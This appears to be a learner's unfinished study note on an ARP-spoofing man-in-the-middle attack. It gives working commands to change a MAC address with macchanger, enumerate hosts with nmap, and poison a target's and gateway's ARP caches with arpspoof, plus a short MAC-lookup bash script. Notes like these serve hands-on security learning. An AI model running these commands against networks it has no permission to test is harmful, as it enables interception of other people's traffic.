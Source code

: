 # TODO - Man in the Middle with ARP spoofing

Welcome again :D&#x20;

Im actually pleased of myself because Im explaining to me and Im actually understanding something LOL

## Recap

### change the MAC

```
sudo macchanger -r eth0 
```

### reverse DNS request to get all the hostname

and find the target

```
nmap -sL 192.168.1.0/24
```

### ARP spoofing

```
sudo arpspoof -i eth0 -t 192.168.1.115 -r 192.168.1.1 
```

Now we need not to arouse suspicion

## Packet redirect

As if we were switches we need to use MAC addresses to forward data at the data link layer (layer 2) of the OSI model. \
\
Some switches can also forward data at the network layer (layer 3) by additionally incorporating routing functionality. Such switches are commonly known as layer-3 switches or [multilayer switches](https://en.wikipedia.org/wiki/Multilayer\_switch).

A script could be useful:

```
./basic_mitm 192.168.1.65 192.168.1.1
```

```bash
#!/bin/bash

echo "$1"
echo "$2"

mac1=$(sudo nmap -nsP "$1" | grep MAC | awk -F\  ' { print $3 } ' )
mac2=$(sudo nmap -nsP "$2" | grep MAC | awk -F\  ' { print $3 } ' )

echo "$mac1"
echo "$mac2"
```

## Sources

{% embed url="https://www.cyberciti.biz/tips/iptables-mac-address-filtering.html" %}

{% embed url="https://explainshell.com/explain?cmd=nmap+-sP" %}
